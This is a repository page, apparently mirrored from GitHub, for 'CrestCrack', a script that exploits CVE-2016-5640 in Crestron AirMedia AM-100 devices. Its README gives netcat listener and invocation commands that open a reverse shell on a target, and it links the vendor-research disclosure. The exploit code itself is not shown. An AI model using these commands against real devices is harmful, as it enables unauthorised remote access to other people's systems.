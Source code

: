 # CrestCrack

Exploits CVE-2016-5640 / CLVA-2016-05-002 against Crestron AM-100

| Infos    | Value                                                              |
| -------- | -------------------------------------------------------------------|
| Username | [https://github.com/vpnguy-zz](https://github.com/vpnguy-zz) |
| Url      | [https://github.com/vpnguy-zz/CrestCrack](https://github.com/vpnguy-zz/CrestCrack)                                               |
| Stars    | 7                                                          |
| License  | GNU General Public License v3.0                                                        |

<details>

<summary>Topic / Tags</summary>



</details>

## Readme

![Supported Python versions](https://img.shields.io/badge/python-2.7-blue.svg)
# CrestCrack
CrestCrack is a simple script that exploits CVE-2016-5640 / CLVA-2016-05-002 within the Crestron AirMedia AM-100 (v1.1.1.11 - v1.2.1). When supplied with arguments CrestCrack will utilize netcat to create a reverse shell between your target and a netcat listener of your choice. 

## Setup:
1. Clone a copy of CrestCrack `git clone https://github.com/vpnguy/CrestCrack`
2. Launch a netcat listener `nc -lvp 1337`
3. Execute CrestCrack against your target with your listener info `./crestcrack.py https://targethost 255.255.255.255 1337`
4. ??????
5. **PROFIT**

###Usage:
**./crescrack.py *[target host] [listener IP] [listener port]***

###Example: 
**./crescrack.py https://targethost 123.123.123.123 3311**

 

## Additional Vulnerability Information:
[Cylance Vulnerability Disclosure](https://github.com/CylanceVulnResearch/disclosures/blob/master/CLVA-2016-05-002.md)

[NIST CVE-2016-5640](https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2016-5640)

## To be added:
- Error handling/bounds checking
- Enhanced argument support
- --help output




## Get the content

```
git clone https://github.com/vpnguy-zz/CrestCrack
cd CrestCrack
```

{% embed url="https://github.com/vpnguy-zz/CrestCrack" %}

<figure><img src="https://avatars.githubusercontent.com/u/1570380?v=4" alt=""><figcaption><p>vpnguy-zz</p></figcaption></figure>
